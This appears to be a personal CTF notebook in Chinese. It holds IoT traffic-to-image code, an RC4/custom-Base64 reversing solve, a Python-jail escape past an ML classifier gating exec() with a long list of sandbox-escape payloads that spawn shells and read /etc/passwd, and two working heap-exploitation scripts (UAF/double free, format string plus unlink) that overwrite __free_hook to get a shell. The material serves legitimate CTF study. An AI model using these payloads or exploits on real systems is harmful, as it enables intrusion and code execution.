

# 2024-2-16

## 代码改进

该方法设计了一种流量矩阵来表示原始流量，首先根据目的IP地址和源IP地址分为多个流量组，然后为了增加流量矩阵的信息密度将原始流量的有以太网报头进行删除只记录有效载荷行，这样做的原因是物联网协议多为应用层协议，以太网报头对于其识别并无作用。最后我们将同组的流量转换为矩阵形式，将$N$个相邻流量转化为$H*L$的二维矩阵。该矩阵设计为60行，每行40字节，每个流量的有效载荷行之间插入一行全为0的间隔行，如果有效字节数不足，则将用0字节填充

```python
import os
import glob
import binascii
from PIL import Image
import scapy.all as scapy
from tqdm import tqdm
import numpy as np
import tkinter as tk
from tkinter import filedialog

def makedir(path):
    try:
        os.mkdir(path)
    except Exception as E:
        pass

def read_5hp_list(pcap_dir):
    packets = scapy.rdpcap(pcap_dir)#解析数据包;读入pcap文件
    data=''
    for packet in packets:
        header = (binascii.hexlify(bytes(packet['IP']))).decode()#将流量包的IP转换为十六进制数据
        try:
            payload = (binascii.hexlify(bytes(packet['Raw']))).decode()#提取流量包的载荷
            header = header.replace(payload, '')
        except:
            payload = ''
        if len(data)+len(payload)+40<=2400:
            data = data + payload + '0'*40
        elif len(data)+len(payload)<=2400:
            data = data + payload


    if len(data) < 2400:
        data = data + (2400-len(data))*'0'
    return data,header

def MFR_generator(flows_pcap_path, output_path):
    flows = glob.glob(flows_pcap_path + "/*/*/*.pcap")#返回所有匹配的文件路径列表。
    makedir(output_path)
    makedir(output_path + "/train")
    makedir(output_path + "/test")#分别创建训练和检验目录
    classes = glob.glob(flows_pcap_path + "/*/*")
    for cla in tqdm(classes):
        makedir(cla.replace(flows_pcap_path,output_path))
    for filename in tqdm(filenames):
        content = read_5hp_list(filename)
        content = np.array([int(content[i:i + 2], 16) for i in range(0, len(content), 2)])
        fh = np.reshape(content, (40, 40))#将提取的数据重塑为40*40的矩阵
        fh = np.uint8(fh)#将数据类型转换为0-255
        im = Image.fromarray(fh)#把数据转换为图像
        im.save(filename.replace('.pcap','.png').replace(flows_pcap_path,output_path))


filename = filedialog.askopenfilename()
print(filename)
content = read_5hp_list(filename)
content = np.array([int(content[i:i + 2], 16) for i in range(0, len(content), 2)])
fh = np.reshape(content, (40, 60))#将提取的数据重塑为40*40的矩阵
fh = np.uint8(fh)#将数据类型转换为0-255
im = Image.fromarray(fh)#把数据转换为图像
im.save(filename.replace('.pcapng','.png'))
```

## Re

### 1


进入程序可以看见一开始需要我们输入flag，然后对flag进行了操作


可以看出是strlen函数


RC4加密，可以看到两个 256 的 for 循环（十六进制的 0x100 就是十进制的 256）
并且第一个 for 循环仅赋值，第二个 for 循环有 swap 操作
再结合 `sub_4009DC()` 后面部分的一个 for 循环、余 256、一个 swap 操作和一个异或操作

可以明显得知这是 RC4 算法的特征
`sub_400864()` 做 s 盒的初始化操作，即 rc4_init
`sub_4009DC()` 做加解密操作，即 rc4_crypt


RC4的key


现多次对数组 `aZyxwvutsrqponm[]` 的索引操作，且 `aZyxwvutsrqponm[]` 的内容类似base64编码表，所以可以确定是base64换表加密

在 `i < 2` 的条件下，存在两次赋值 ‘=’ 的操作 **（61 是 ‘=’ 的 ASCii 码）**
这些都是 Base64 加密的特点，可以推知函数 `sub_400550()` 是一个更换了原始码表的 Base64 算法

也就是说，本题是将 flag 进行 RC4 加密后，再进行更换码表的 Base64 加密。

```python
import base64
from Crypto.Cipher import ARC4

key = "ScDZC1cNDZaxnh/2eW1UdqaCiJ0ijRIExlvVEgP43rpxoxbYePBhpwHDPJ=="
string1 = "ZYXWVUTSRQPONMLKJIHGFEDCBAabcdefghijklmnopqrstuvwxyz/+9876543210"  # string1表示更换后的码表
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"  # string2表示原始码表
Str = base64.b64decode(key.translate(str.maketrans(string1, string2)))  # Base64解密，bytes型

aFlag1233213211 = "flag{123321321123badbeef012}"
flag = ARC4.new(bytes(aFlag1233213211, encoding='utf-8')).decrypt(Str)
print(flag)
```

### 2

打开压缩包后查看源代码，发现是沙箱逃逸，有黑白名单

```py
#!/usr/bin/env python3
from mlmodel import endpoint

WARNING = '\033[93m'
ERROR = '\033[91m'
END = '\033[0m'

if __name__ == "__main__":
    while True:
        user_input = input(">>> ")
        classification = endpoint.classify_local(user_input)
        if len(classification) == 0:
            print(f"{WARNING}Cannot verify...{END}")
            continue
        intent = dict(classification[0]).get('intent')
        if intent == None: continue
        try:
            if intent == 'good_code':
                exec(user_input)
            else:
                print(f"{ERROR}Bad Code Detected...{END}")
        except Exception as e:
            print(f"Oops, something broke: \n{ERROR}{e}{END}")
            pass

```

```
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
execfile('/usr/lib/python2.7/os.py')
system('ls')
exec()
exec("print('RCE'); __import__('os').system('ls')") 
exec("print('RCE')\n__import__('os').system('ls')")
eval()
eval("__import__('os').system('ls')") 
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) 
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) 
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
[a:=21,a*2]
[y:=().__class__.__base__.__subclasses__()[84]().load_module('builtins'),y.__import__('signal').alarm(0), y.exec("import\x20os,sys\nclass\x20X:\n\tdef\x20__del__(self):os.system('/bin/sh')\n\nsys.modules['pwnd']=X()\nsys.exit()", {"__builtins__":y.__dict__})]
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
__builtins__["__import__"]('os').system('ls')
__builtins__["open"]("/etc/passwd").read()
__builtins__["__import__"]("os").system("ls")
"".__class__.__base__.__subclasses__()
[].__class__.__base__.__subclasses__()
{}.__class__.__base__.__subclasses__()
().__class__.__base__.__subclasses__()
(1).__class__.__base__.__subclasses__()
bool.__class__.__base__.__subclasses__()
print.__class__.__base__.__subclasses__()
open.__class__.__base__.__subclasses__()
defined_func.__class__.__base__.__subclasses__()
"".__class__.__bases__[0].__subclasses__()
"".__class__.__mro__[1].__subclasses__()
"".__getattribute__("__class__").mro()[1].__subclasses__()
"".__getattribute__("__class__").__base__.__subclasses__()
(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()
(''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('popen'))('cat+flag.txt').read()
[ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ]
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" in x.__init__.__globals__ ][0]["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" == x.__init__.__globals__["__name__"] ][0]["system"]("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('ls')
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "subprocess" == x.__init__.__globals__["__name__"] ][0]["Popen"]("ls")
[ x for x in ''.__class__.__base__.__subclasses__() if "'subprocess." in str(x) ][0]['Popen']('ls')
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen' ][0]('ls')
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "__bultins__" in x.__init__.__globals__ ]
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
''.__class__.__mro__[-1].__subclasses__()[71]._Printer__setup.__globals__['os'].system("ls")
print(eval(eval('"alles.__".'+str(print.__class__)[9]+'ppe'+'r()')+'code__.co_consts'))
[x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("ls")
[].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('builtins').exec('print(123)',{'__builtins__':[x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('builtins')})
[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == "catch_warnings"][0]()._module
eval(input())
input()
__import__('time').sleep({} if open('/home/nullcon/flagpart1.txt').read({})[-1:] == '{}' else 0)
```

打开黑名单后发现对eval，exec，import等都进行了过滤，我们利用getattr拿到对象的方法和属性，对于过滤的字符使用chr()进行转换

getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')

getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('l'+chr(115))

getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('cat MLjail/flag.txt')


### 3


 打开之后就是一个经典的堆题，可以对堆进行开辟，显示和释放三种操作


在释放的时候并没有把指针指控这样我们就可以使用UAF漏洞来泄露malloc_main_addr，从而获取free_hook_addr，然后利用double free获取free_hook的控制权修改为system，然后释放从而获取shell

```python
from pwn import *
from LibcSearcher import *
context(os = 'linux', arch = 'amd64', log_level = 'debug')
io = remote('node4.buuoj.cn',28067)
elf = ELF('./ciscn_2019_es_1')
def add(size,content,compary):
    io.sendlineafter('choice:','1')
    io.sendlineafter("Please input the size of compary's name",str(int(size)))
    io.sendlineafter('please input name:',content)
    io.sendlineafter('please input compary call:',compary)

def show(index):
    io.sendlineafter('choice:','2')
    io.sendlineafter('Please input the index:', index)

def call(index):
    io.sendlineafter('choice:', '3')
    io.sendlineafter('Please input the index:', index)

add(0x410,b'aaa','0')
add(0x20,b'bbb','1')
add(0x20,b'/bin/sh','2')

call('0')
show('0')
malloc_main_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-96-0x10
print(hex(malloc_main_addr))
libc = LibcSearcher('__malloc_hook',malloc_main_addr)
libc_base = malloc_main_addr - libc.dump('__malloc_hook')
free_hook_addr = libc_base + libc.dump('__free_hook')
system_addr = libc_base + libc.dump('system')

call('1')
call('1')

add(0x20,p64(free_hook_addr),'1')
add(0x20,b'mmm','1')
add(0x20,p64(system_addr),'3')

call('2')
io.interactive()
```

### 4


使用IDA打开后可以发现有三种功能，添加、释放和编辑


我们打开最开始的banner函数发现她会打印我们的输入，所以存在格式化字符串漏洞，我们可以利用这个漏洞来泄露主函数地址和libc，我们发现第11和第15会泄露libc和main函数地址



然后我们可以利用unlink来控制note处，而note标记着开辟的各个堆。我们创建一个fake chunk，让其fd和bk都指向note[0]，这样释放一个同样大小的chunk使两个chunk会合并，fd的bk会变成bk，bk的fd会变成fd，这样note[0]就指向了note-0x18处，从而让我们通过编辑heap0来控制note，我们修改heap0将note[0]指向free_hook, 然后修改其为system，然后释放/bin/sh块即可。必须大于0x80因为不会对fastbin进行合并

```py
from pwn import *
from LibcSearcher import *
context(os = 'linux', arch = 'amd64', log_level = 'debug')
io =process('./axb')
#io = remote('node4.buuoj.cn',26489)
def add(index,size,content):
    io.sendlineafter('>> ',b'1')
    io.sendlineafter(r'Enter the index you want to create (0-10):',index)
    io.sendlineafter(r'Enter a size:', str(size))
    io.sendlineafter(r'Enter the content: ', content)
def delete(index):
    io.sendlineafter('>> ', b'2')
    io.sendlineafter(r'Enter an index:', index)
def edit(index,content):
    io.sendlineafter('>> ', b'4')
    io.sendlineafter(r'Enter an index:', index)
    io.sendlineafter(r'Enter the content: ', content)
io.sendlineafter(r'Enter your name: ',b'%11$p%15$p')
length = len('Hello, 0x56318b4ff1860x7f0146b4a830')
p = io.recv(length)
base = int(p[9:21],16)-28-0x116A
libc = LibcSearcher('__libc_start_main',int(p[23:36],16)-240)
libc_base = int(p[23:36],16)-libc.dump('__libc_start_main')-240
system_addr = libc_base + libc.dump('system')
free_hook = libc_base + libc.dump('__free_hook')

note_addr = base + 0x202060
fd = note_addr - 0x18
bk = note_addr - 0x10
print(hex(note_addr))
add(b'0',0x98,b'aaa')
add(b'1',0x98,b'aaa')
add(b'2',0x90,b'aaa')
add(b'3',0x90,rb'/bin/sh')
payload = p64(0)+p64(0x90)+p64(fd)+p64(bk)+b'a'*0x70+p64(0x90)+b'\xa0'
edit(b'0',payload)
delete(b'1')
payload = p64(0)*3 + p64(free_hook)+p64(0x98)
edit(b'0',payload)
print(hex(free_hook))
delete(b'3')
edit(b'0',p64(system_addr))
io.interactive()

```

